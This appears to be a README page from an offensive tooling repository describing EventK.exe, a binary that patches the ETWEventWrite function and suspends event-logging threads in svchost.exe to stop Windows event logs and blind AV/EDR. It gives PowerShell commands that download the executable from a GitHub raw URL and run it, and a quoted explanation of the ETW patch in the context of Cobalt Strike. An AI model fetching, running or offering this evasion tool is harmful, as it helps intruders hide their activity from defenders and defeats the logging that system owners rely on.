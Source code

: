 ## Module Name
   <b><i>EventK.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Patch the ETWEventWrite function to prevent the creation of logfiles|Administrator|Suspend thread in svchost.exe related to event logging (@SolomonSklash)<br />[Screenshot](https://naoexiste)|

<br />

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/EventK.exe" -OutFile "EventK.exe"
```

<br />

```powershell
.\EventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Next up is coverage of Event Tracing for Windows (ETW), how it can rat you out to AV/EDR,
and how to blind it in your local process. ETW is especially relevant when executing .NET
assemblies, such as in Cobalt Strike’s execute-assembly, as it can inform defenders of the
exact assembly name and methods executed. The solution in this case is simple: Patch the
ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW event
is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html
